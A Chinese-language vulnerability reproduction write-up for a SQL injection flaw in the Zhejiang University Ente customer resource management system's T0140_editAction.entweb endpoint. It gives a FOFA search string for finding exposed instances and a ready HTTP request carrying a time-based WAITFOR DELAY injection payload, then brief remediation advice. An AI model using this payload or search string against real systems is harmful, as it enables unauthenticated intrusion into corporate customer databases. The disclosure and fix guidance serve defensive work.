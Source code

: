 
# 浙大恩特客户资源管理系统 SQL 注入漏洞复现

### 0x01 产品简介

  浙大恩特[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020 "客户资源管理")系统是一款针对企业[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)的软件产品。该系统旨在帮助企业高效地管理和利用客户资源，提升销售和市场营销的效果。

### 0x02 漏洞概述

 浙大恩特客户资源管理系统中 T0140\_editAction.entweb 接口处存在[SQL 注入漏洞](https://so.csdn.net/so/search?q=SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以利用该漏洞获取系统数据库敏感信息，深入利用可获取服务器权限。

### 0x03 复现环境

FOFA：app="浙大恩特客户资源管理系统"

![](assets/1700442881-b38074d2664ddc683fad4dcf5fe7b25e.png)

### 0x04 漏洞复现

PoC

```cobol
GET /entsoft/T0140_editAction.entweb;.js?method=getdocumentnumFlag&documentnum=1';WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

延时注入

![](assets/1700442881-2d3db935fb42ff51d4880ef54091f1d0.png)

Sqlmap 验证

![](assets/1700442881-3c0b5740c4a0a7502240e0ed96fc6a23.png)

### 0x05 修复建议 

关闭互联网暴露面设置接口访问控制，对用户提交数据信息严格把关，多次筛选过滤  
对用户数据内容进行加密，采用 SQL 语句预编译和绑定变量
